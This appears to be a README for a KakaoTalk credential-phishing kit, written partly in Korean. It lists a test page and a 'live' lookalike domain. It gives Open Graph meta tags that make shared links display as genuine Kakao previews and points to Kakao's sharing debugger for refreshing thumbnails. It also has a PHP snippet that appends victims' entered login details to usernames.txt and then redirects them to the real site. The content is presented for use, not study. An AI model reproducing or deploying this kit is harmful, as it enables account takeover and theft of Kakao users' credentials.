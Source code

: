 # Kakao login fishing 

## Service
```
#Test
https://dnldp55.github.io/
#Live
https://accountkakao.works/
```

## Fake URL Preview
```
<head>
    <meta property="og:url" content="[[카카오 썸네일 노출 링크]]">
    <meta property="og:title" content="제목">
    <meta property="og:type" content="website">
    <meta property="og:image" content="[[카카오 썸네일 노출 링크]]">
    <meta property="og:description" content="본문 내용.">
    <title>카카오톡 URL링크</title>
</head>
```
```
# 빠른 썸네일 반영
https://developers.kakao.com/tool/debugger/sharing
```
## 계정 정보 저장
```
Post.PHP
$handle=fopen("usernames.txt","a"); 입력된 계정 정보를 usernames.txt에 저장 
header("location:[[로그인 버튼 누를시 이동되는 원본 사이트 주소]]");

```
